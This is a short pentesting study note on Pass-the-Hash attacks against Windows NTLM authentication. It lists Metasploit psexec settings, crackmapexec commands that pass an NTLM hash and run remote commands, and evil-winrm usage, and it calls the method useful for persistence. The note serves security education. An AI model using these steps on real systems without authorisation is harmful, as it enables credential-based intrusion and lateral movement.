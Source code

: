 

---
**Check This YT <mark style="background: #e74c3c;">:LiYoutube:</mark> video: https://youtu.be/YgQsrifaHwo**
### an exploitation technique that involves capturing or harvesting NTLM hashes or clear text passwords and utilizing them to authenticate with the target legitimately.

- <mark style="background: #8e44ad;">This works because NTLM authentication only requires the hash, **not the original password.**</mark>

---

# We can use multiple tools to facilitate a Pass-The-Hash attack:

<br>

- ##  <mark style="background: #FF5582A6;">Metasploit</mark> PsExec module [[SMB PsExec]] `exploit/windows/smb/psexec`
   - 🛑<mark style="background: #D2B3FFA6;"> if this module doesn't work try to change the target</mark>
   - Specify the LPORT, RHOSTS 
   - `Set SMBUSER <user>`
   - `Set SMBPass <Extracted_NTLM_Hash>`
	<br>
 - ## Crackmapexec
   - Alternative tool for performing Pass-The-Hash.
   - `crackmapexec smb <targer_ip> -u <username> -p <"Password">`
   -  🛑 use -H instead of -p, because it is the hash option(And inside a quotations"").
   -  To perform commands: `crackmapexec smb <targer_ip> -u <username> -H <"NTLM_Hash"> -x "ipconfig"` 
	<br>
+ ## evilwinrm

You dont need to crack the hashes, just pass both the LM and NTLM hashes. "LM:NT"

 

This is considered a good practice for persistence